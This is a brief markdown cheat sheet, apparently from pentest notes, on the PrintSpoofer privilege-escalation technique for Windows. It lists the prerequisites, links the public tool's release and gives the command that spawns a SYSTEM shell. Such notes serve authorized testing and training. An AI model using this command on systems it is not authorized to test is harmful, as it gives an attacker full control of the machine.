 
# 🧨 PrintSpoofer - Privilege Escalation via Print Spooler Impersonation


### ✅ Requirements

- Local user with:
  - `SeImpersonatePrivilege`
  - Access to a system with the **Print Spooler service running**
- Windows 10 or Server 2016/2019 (unpatched)

### 🚀 Exploitation Steps

1. **Download PrintSpoofer**
   - [Download from GitHub Releases](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
   - Choose the correct binary: `PrintSpoofer.exe` (x64 or x86)

2. **Execute with SYSTEM impersonation**
   ```bash
   PrintSpoofer.exe -i -c cmd
   ```
